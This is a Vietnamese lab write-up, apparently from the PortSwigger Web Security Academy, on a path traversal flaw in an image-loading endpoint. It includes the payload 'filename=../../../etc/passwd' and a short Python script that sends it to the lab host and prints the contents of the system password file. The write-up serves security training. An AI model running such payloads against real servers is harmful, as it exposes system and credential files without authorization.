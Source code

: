 ![image](https://hackmd.io/_uploads/HJj3t38F6.png)

<ul>
    <li>và mình bắt được gói tin yêu cầu 1 file ảnh từ server </li>
</ul>

![image](https://hackmd.io/_uploads/S1Mivh8FT.png)

### Khai thác

vậy sẽ như thế nào nếu ta đổi filename thành 1 tên khác? Nó sẽ show ra 1 ảnh khác đúng không?
Yessss! Chúng ta sẽ khai thác lỗ hổng từ đó

để kiểm tra lỗi Path traversal mình đã dùng các dấu **".\./"** để di chuyển lên các thư mục cha của thư mục hiện tại và với mục đích để đọc được file **/etc/passwd** và may mắn là đến **".\./"** thứ 3 thừ mình đã đọc được file này

bài không có bất cứ một lớp phòng vệ nào để ngăn chặn Path traversal

![image](https://hackmd.io/_uploads/rJLluhUFT.png)

mình cũng đã viết lại script khai thác :100:

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# from bs4 import BeautifulSoup

url = 'https://0af3000e03e09b7683f3e181001d002b.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/image?filename=../../../etc/passwd',
    verify=False,
)

print(response.text) # hiển thị response có flag
```

![image](https://hackmd.io/_uploads/SkcpC3UFp.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải được lab

![image](https://hackmd.io/_uploads/rk_nnn8Ya.png)

### Scan trên Burp suite pro

![image](https://hackmd.io/_uploads/B1gwy0q2a.png)
